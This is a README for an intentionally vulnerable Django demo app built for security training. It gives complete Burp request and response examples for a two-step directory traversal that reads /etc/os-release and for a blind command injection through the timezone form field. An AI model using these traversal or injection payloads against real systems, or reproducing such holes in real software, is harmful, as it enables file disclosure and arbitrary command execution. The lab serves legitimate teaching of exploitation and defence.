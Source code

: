 # h00die Cola

A demo django webapp which contains some vulnerabilities to exploit for nDepth security.

This was developed under Kali linux.

### Install
```
pip install Django==1.11
git clone https://github.com/h00die/ndepth_demo.git
python manage.py runserver 0:80
```
### Login

Login, as in the description, takes any username and password.  There are no user levels, all accounts are the same.

### Exploits

#### Directory Traversal

There is a directory traversal vulnerability on the config backup page.  However, there is a multi-step exploitation.

1. A request is made for the directory traversal file.  An Integer is returned
2. A request is made to download the the queued ID number

Since this is a multi-step process, vulnerability scanners were not able to identify it.

An example from BURP of executing code to exploit this vulnerability:

Step 1
```
POST /queue_download/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-CSRFToken: XBRFohVHOJnnqvX4Y3nRg5QX10jSaa3eLwGGjJxvLl592NDi4GkzujAecMIDoQMM
Referer: http://127.0.0.1/config/
Content-Length: 53
Cookie: csrftoken=XBRFohVHOJnnqvX4Y3nRg5QX10jSaa3eLwGGjJxvLl592NDi4GkzujAecMIDoQMM; sessionid=p1ddjun257oqxdylvjp61ae44yl4vf3o
Connection: close

location=../../../../../../../../../../etc/os-release
```

Step 1 Response
```
HTTP/1.0 200 OK
Date: Sat, 03 Mar 2018 21:46:14 GMT
Server: WSGIServer/0.1 Python/2.7.14+
Vary: Cookie
X-Frame-Options: SAMEORIGIN
Content-Type: application/json
Content-Length: 2

15
```
Step 2
```
POST /download/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-CSRFToken: XBRFohVHOJnnqvX4Y3nRg5QX10jSaa3eLwGGjJxvLl592NDi4GkzujAecMIDoQMM
Referer: http://127.0.0.1/config/
Content-Length: 5
Cookie: csrftoken=XBRFohVHOJnnqvX4Y3nRg5QX10jSaa3eLwGGjJxvLl592NDi4GkzujAecMIDoQMM; sessionid=p1ddjun257oqxdylvjp61ae44yl4vf3o
Connection: close

id=15
```

Step 2 Response
```
HTTP/1.0 200 OK
Date: Sat, 03 Mar 2018 21:46:17 GMT
Server: WSGIServer/0.1 Python/2.7.14+
Vary: Cookie
X-Frame-Options: SAMEORIGIN
Content-Type: text/plain
Content-Length: 246
Content-Disposition: attachment; filename='../../../../../../../../../../etc/os-release'

PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
ID=kali
VERSION="2018.1"
VERSION_ID="2018.1"
ID_LIKE=debian
ANSI_COLOR="1;31"
HOME_URL="http://www.kali.org/"
SUPPORT_URL="http://forums.kali.org/"
BUG_REPORT_URL="http://bugs.kali.org/"
```

#### Remote Code Execution

There is a remote code execution vulnerability on the timezone form.  However, it is blind (no results displayed) and limited to 36 characters.
Since this is a blind RCE, vulnerability scanners were not able to identify it.

An example from BURP of executing code to exploit this vulnerability:
```
POST /timezone/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/timezone/
Cookie: csrftoken=XBRFohVHOJnnqvX4Y3nRg5QX10jSaa3eLwGGjJxvLl592NDi4GkzujAecMIDoQMM; sessionid=p1ddjun257oqxdylvjp61ae44yl4vf3o
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 113

csrfmiddlewaretoken=lIqwLXlI2dGWLN0nJfciOGORDCVjt2lQ9DfxGpXwZPoIn5GBPS902Uy8Ook4HI4o&timezone=echo "hax" > /tmp/a
```
And the proof:
```
# cat /tmp/a
hax
```
